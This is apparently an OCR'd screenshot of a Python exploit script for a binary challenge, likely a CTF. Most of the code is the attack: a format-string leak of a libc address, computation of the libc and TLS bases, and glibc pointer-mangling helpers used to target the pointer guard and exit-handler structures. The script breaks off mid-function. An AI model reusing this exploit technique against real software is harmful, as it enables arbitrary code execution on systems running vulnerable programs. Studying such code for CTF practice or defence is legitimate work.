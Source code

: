 ```python
c
"""

p = start()

# ==================== EXPLOIT ====================


def rol_u64(num: int, shift: int) -> int:
    """Rotate a 64-bit unsigned integer left by `shift` bits."""
    shift %= 64  # Ensure shift is within 0-63
    u64max = (1 << 64) - 1
    return ((num << shift) | (num >> (64 - shift))) & u64max


def ptr_mangle(addr, key):
    return rol_u64(addr ^ key, 17)


def cast_i64(num):
    """Convert a Python int to a 64-bit signed integer (i64)."""
    return ((num + (1 << 63)) % (1 << 64)) - (1 << 63)


assert cast_i64((1 << 63) + 5) == -0x7FFFFFFFFFFFFFFB

# Example Usage
x = 0x123456789ABCDEF0  # 64-bit value
rotated = rol_u64(x, 4)
assert rotated == 0x23456789ABCDEF01, hex(rotated)


def write_two(a, val0, b, val1, guard=0):
    sla("... ", f"{b} {val1}")
    mangled = cast_i64(ptr_mangle(val0, guard))
    sla("... ", f"{a} {mangled}")
    pass


def fmt_leak_hex(s):
    sla("...", s)
    rcu("heavy ")
    leak = int(p.recvline(), 16)
    return leak


def exploit():
    libc_main_ret = fmt_leak_hex(b"%13$p")
    info(f"libc_main_ret: {hex(libc_main_ret)}")
    libc.address = libc_main_ret - 0x28150
    logbase()

    tls_address = libc.address - 0x28C0
    ptr_guard_addr = tls_address + 0x30

    func_0 = libc.sym.initial + 24
    func_0_arg = libc.sym.initial + 32
    info(f"tls: {hex(tls_address)}")
    info(f"fun0= {hex(func_0)}  ptr_guard_addr= {hex(ptr_guard_addr)}")

    func_1 = libc.sym.initial + 56
    func_cnt = libc.sym.initial + 8  # initial->idx

```